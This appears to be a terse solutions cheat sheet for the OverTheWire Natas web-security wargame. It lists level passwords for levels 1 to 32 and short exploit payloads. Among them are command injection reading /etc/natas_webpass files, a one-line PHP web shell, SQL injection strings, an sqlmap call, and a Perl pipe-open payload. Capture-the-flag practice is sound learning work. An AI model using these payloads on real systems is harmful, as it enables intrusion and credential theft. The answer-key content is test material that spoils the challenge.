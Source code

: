 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Level14
* cat /etc/natas_webpass/natas14
* Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

#### Level15
>	 sqlmap -r r.req -p password
*	 " or "1"="1
* AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### Level16
* username=natas16" and hex(password) like "576149484561636a3633776e4e4942524f4865716933703974306d356e686d68%";-- -
* WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

#### Level 17
* 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### Level18
* xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

#### Level19
* 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

#### Level20
* payload: %0aadmin+1
* eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

#### Level21
* IFekPyrQXftziDEsUr3x21sYuahypdgJ

#### Level22
* La pagina1 no tiene la cookie con la key admin. Se modifica la cookie en la pagina2 con el parametro vulnerable y despues se reemplaza la cookie en la pagina1.
* chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

#### Level23
* payload "passwd=11iloveyou"
* D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

#### Level24
* OsRmXFguozKpTZZ5X14zNO43379LZveg

#### Level25
* payload "passwd[]"
* GHF6X7YwACaYYssHVY05cFq83hRktl4c

#### Level26
* oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

#### Level27
* 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

#### Level28
* JWwR438wkgTsNKBbcJoowyysdM82YjeF

#### Level29
* airooCaiseiyee8he8xongien9euhe8b

#### Level30
* wie9iexae0Daihohv8vuu3cei9wahf0e

#### Level31
* hay7aecuungiuKaezuathuk9biin0pu1

#### Level32
* The Perl Jam 2 payload 
>   POST /index.pl?|/bin/cat+/etc/natas_webpass/natas32+| 

>   -----------------------------416450785040312578442700592

>   Content-Disposition: form-data; name="file";

>   Content-Type: text/plain

>   ARGV
* no1vohsheCaiv3ieH4em1ahchisainge
